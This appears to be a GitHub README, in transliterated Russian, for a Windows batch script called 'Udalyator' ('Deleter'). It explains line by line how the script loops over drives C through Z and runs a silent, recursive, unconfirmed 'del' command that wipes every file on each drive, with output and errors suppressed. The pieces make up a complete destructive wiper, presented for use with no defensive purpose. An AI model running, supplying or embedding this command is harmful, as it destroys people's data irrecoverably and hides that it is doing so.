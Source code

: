 # Udalyator
Etot skript napisan na yazyke paketnykh faylov Windows i prednaznachen dlya udaleniya vsekh faylov s diskov (C-Z), yesli oni sushchestvuyut.
Podrobnoye opisaniye raboty skripta:

1. @echo off: Eta stroka otklyuchayet vyvod komand na ekran, delaya vypolneniye skripta boleye chistym.
2. for %%d in (C D E F G H I J K L M N O P Q R S T U V W X Y Z) do (...): Etot tsikl perebiraet bukvy diskov ot C do Z.
3. if exist %%d:\ (...): Proveryayet sushchestvovaniye diska %%d (naprimer, C:, D:\ i t.d.).
4. del /q /s %%d:\*.* >nul 2>&1: Udalet vse fayly na diske %%d bez zaprosa podtverzhdeniya (/q) i rekursivno (/s). Rezultaty operatsii vyvodyatsya v nulevoye ustroystvo (nul) i oshibki perenapravlyayutsya v standartnyy vyvod (2>&1).
